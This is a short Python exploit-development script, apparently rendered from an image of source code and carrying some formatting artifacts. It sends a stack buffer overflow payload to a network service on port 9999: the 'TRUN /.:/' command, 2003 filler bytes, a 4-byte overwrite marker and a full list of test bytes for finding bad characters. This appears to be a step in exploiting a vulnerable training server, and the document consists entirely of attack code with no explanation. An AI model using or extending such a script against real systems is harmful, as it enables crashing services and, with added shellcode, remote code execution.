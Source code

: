  

#!/usr/bin/python3

 

import sys, socket

from time import sleep

 

badchars = (\"\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e\\x0f\\x10\\x11\\x12\\x13\"

\"\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f\\x20\\x21\\x22\\x23\\x24\\x25\\x26\"

\"\\x27\\x28\\x29\\x2a\\x2b\\x2c\\x2d\\x2e\\x2f\\x30\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\"

\"\\x3a\\x3b\\x3c\\x3d\\x3e\\x3f\\x40\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a\\x4b\\x4c\"

\"\\x4d\\x4e\\x4f\\x50\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f\"

\"\\x60\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f\\x70\\x71\\x72\"

\"\\x73\\x74\\x75\\x76\\x77\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f\\x80\\x81\\x82\\x83\\x84\\x85\"

\"\\x86\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f\\x90\\x91\\x92\\x93\\x94\\x95\\x96\\x97\\x98\"

\"\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f\\xa0\\xa1\\xa2\\xa3\\xa4\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\"

\"\\xac\\xad\\xae\\xaf\\xb0\\xb1\\xb2\\xb3\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\"

\"\\xbf\\xc0\\xc1\\xc2\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf\\xd0\\xd1\"

\"\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf\\xe0\\xe1\\xe2\\xe3\\xe4\"

\"\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef\\xf0\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\"

\"\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe\\xff\")

 

shellcode = \"A\" \* 2003 + \"B\" \* 4 + badchars

 

try:

> s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>
> s.connect((\'192.168.4.104\',9999))

 

> payload = \"TRUN /.:/\" + shellcode

 

> s.send((payload.encode()))
>
> s.close()

except:

> print (\"Error connecting to server\")
>
> sys.exit()
